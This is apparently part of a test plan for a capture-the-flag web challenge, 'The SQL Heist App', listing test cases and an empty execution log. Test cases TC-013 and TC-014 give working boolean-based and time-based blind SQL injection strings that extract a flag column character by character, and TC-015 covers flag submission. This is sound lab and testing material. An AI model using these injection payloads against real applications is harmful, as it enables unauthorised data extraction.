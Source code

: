 ### TC-012: Special Character Handling
1. **Steps**:
   - Enter search terms with various special characters: `!@#$%^&*()`
   - Submit the search form
2. **Expected Result**:
   - Application should handle special characters gracefully
   - No unexpected errors or crashes

## 6. Alternative SQL Injection Techniques

### TC-013: Boolean-based Blind SQL Injection
1. **Steps**:
   - Enter: `' OR (SELECT SUBSTR(flag,1,1) FROM The_SQL_Heist_App_article WHERE flag IS NOT NULL)='F' --`
2. **Expected Result**:
   - If the first character of the flag is 'F', all articles should be displayed
   - Otherwise, no articles should be displayed

### TC-014: Time-based Blind SQL Injection
1. **Steps**:
   - Enter: `' OR (SELECT CASE WHEN (SELECT SUBSTR(flag,1,1) FROM The_SQL_Heist_App_article WHERE flag IS NOT NULL)='F' THEN RANDOMBLOB(1000000) ELSE 'a' END) --`
2. **Expected Result**:
   - If the first character is 'F', query should take longer to execute
   - Response time difference should be noticeable

### TC-015: Flag Submission
**Objective**: Verify that the extracted flag can be successfully submitted to the scoring system.

**Steps**:
1. Navigate to the CTF scoring platform
2. Submit the extracted flag (with proper curly braces) in the submission form
3. Verify the submission is accepted

**Expected Result**: The flag is accepted by the scoring system and points are awarded for the challenge.

## Test Execution Log

| Test ID | Date | Tester | Browser/Environment | Result | Issues Found |
|---------|------|--------|---------------------|--------|--------------|
| TC-001  |      |        |                     |        |              |
| TC-002  |      |        |                     |        |              |
| TC-003  |      |        |                     |        |              |
| TC-004  |      |        |                     |        |              |
| TC-005  |      |        |                     |        |              |
| TC-006  |      |        |                     |        |              |
| TC-007  |      |        |                     |        |              |
| TC-008  |      |        |                     |        |              |
| TC-009  |      |        |                     |        |              |
| TC-010  |      |        |                     |        |              |
| TC-011  |      |        |                     |        |              |
| TC-012  |      |        |                     |        |              |